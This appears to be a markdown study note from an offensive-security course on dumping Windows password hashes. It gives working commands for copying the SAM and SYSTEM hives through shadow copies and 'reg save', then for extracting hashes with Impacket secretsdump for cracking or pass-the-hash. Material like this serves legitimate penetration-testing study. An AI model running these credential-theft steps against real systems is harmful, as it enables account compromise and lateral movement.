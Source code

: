 # Dumping Windows Password Hashes.md

Using Impacket's SecretsDump, we can dump the Windows password hashes.

###  Obtain Credentials from SAM database
- The SAM is located at *C:\Windows\System32\config\SAM*
- The SYSTEM process has an exclusive lock on it, preventing us from reading or copying it even from administrative command prompt
```powershell
C:\>copy c:\Windows\System32\config\sam C:\Users\offsec.corp1\Downloads\sam
The process cannot access the file because it is being used by another process.
        0 file(s) copied.
```

> ***It is possible to perform a physical attack as well by booting the computer off an external media like a USB into a Linux-based operating system and accessing the content of the hard drive.***

> There are 2 potential workarounds:

#### Method 01 - Volume Shadow Copy Server - Available only in Server Edition
- We can create a snapshot (or "shadow volume") of the local hard drive with vssadmin - installed on Windows 8.1 and later.
- We can create a new shadow volume with the `create shadow` option. 
- -> "***BUT*** ..", this option is only available on server edition of the tool.

#### Method 02 - WMIC with shadowcopy
> Note that the following commands must be run from a standard cmd.exe prompt, not from a PowerShell prompt.

1. We can execute this option through WMIC launched from an administrative command prompt.
```powershell
C:\> wmic shadowcopy call create Volume='C:\'
```
2. To verify this:
```powershell
C:\> vssadmin list shadows
```
3. Copy the SAM database from it using the source path
```powershell
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec\Downloads\sam
```
4. cop the SYSTEM file using the same method ^^ - Raison below
```powershell
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
```

**PS:**
- Although we have copied the SAM database, it is partially encrypted by either RC4 (Windows 10 prior to Anniversary edition also called 1607 or RS1) or AES. (Anniversary edition and newer). The encryption keys are stored in the _SYSTEM_ file, which is in the same folder as the SAM database. However, it is also locked by the _SYSTEM_ account. We can reuse our shadow volume copy to copy this file as well

#### Method 03  Using Register (Reg)
- We can use the `reg save` command to save the content to the hard disk by specifying the registry hive and the output file name and path
```powershell
C:\> reg save HKLM\sam C:\users\offsec\Downloads\sam
C:\> reg save HKLM\system C:\users\offsec\Downloads\system
```

## Decrypt SAM Database and SYSTEM file
### Using Credentials
```sh
impacket-secretsdump example.local/username:password@<target-ip>

# -just-dc: Extract only NTDS.DIT (NTLM hashes and kerberos keys).
impacket-secretsdump -just-dc example.local/username:password@<target-ip>
# -just-dc-ntlm: Extract only NTDS.DIT data (NTLM hashes only).
impacket-secretsdump -just-dc-ntlm example.local/username:password@<target-ip>
```

### Using NTDS file or Hives
```sh
# -ntds: NTDS.DIT file to parse
# -system: SYSTEM hive to parse
impacket-secretsdump -ntds ntds.dit -system system LOCAL

# -sam: SAM hive to parse
# -security: SECURITY hive to parse
# -system: SYSTEM hive to parse
impacket-secretsdump -sam sam.bak -security security.bak -system system.bak LOCAL
```

After dumping, we can crack them to reveal passwords or use them with **Pass-The-Hash**.
